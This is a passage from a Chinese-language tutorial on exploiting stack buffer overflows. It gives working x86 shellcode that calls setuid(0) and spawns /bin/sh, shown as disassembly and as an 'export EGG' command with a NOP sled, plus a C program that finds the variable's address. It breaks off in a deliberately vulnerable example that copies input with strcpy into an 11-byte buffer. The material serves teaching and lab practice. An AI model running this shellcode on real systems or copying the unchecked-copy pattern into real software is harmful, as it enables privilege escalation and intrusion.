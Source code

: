 上述 shell 对应的汇编代码如下：

```
setuid(0)

 8049380:       6a 17                   push   $0x17
 8049382:       58                      pop    %eax
 8049383:       31 db                   xor    %ebx,%ebx
 8049385:       cd 80                   int    $0x80

execve("/bin//sh", ["/bin//sh"], NULL)

 8049387:       6a 0b                   push   $0xb
 8049389:       58                      pop    %eax
 804938a:       99                      cltd   
 804938b:       52                      push   %edx
 804938c:       68 2f 2f 73 68          push   $0x68732f2f
 8049391:       68 2f 62 69 6e          push   $0x6e69622f
 8049396:       89 e3                   mov    %esp,%ebx
 8049398:       52                      push   %edx
 8049399:       53                      push   %ebx
 804939a:       89 e1                   mov    %esp,%ecx
 804939c:       cd 80                   int    $0x80
```

可以通过编写C程序得到创建的环境变量的地址。注意：环境变量地址会根据程序文件名进行偏移。**故编写的程序应和待攻击程序的文件名长度一致**，这样得到的环境变量地址也是一致的，否则需要计算地址的偏移。

```cpp
//export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
	printf("Egg address: %p ",getenv("EGG"));
}
```

由于未开启栈地址随机化，所以环境变量的地址不会改变。需要注意的是，如果题目的代码预先清空了所有的环境变量，则该方法不能使用。

### 4.3 栈溢出例题2

（展开代码以查看漏洞程序）

```cpp
//q1.c

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void store_passwd_indb(char* passwd) {

}

void validate_uname(char* uname) {

}

void validate_passwd(char* passwd) {
	char passwd_buf[11];
 	unsigned char passwd_len = strlen(passwd); 
 	if(passwd_len >= 4 && passwd_len <= 8) { 
  		printf("Valid Password\n"); 
  		fflush(stdout);
  		strcpy(passwd_buf,passwd); 
 	} else {
```
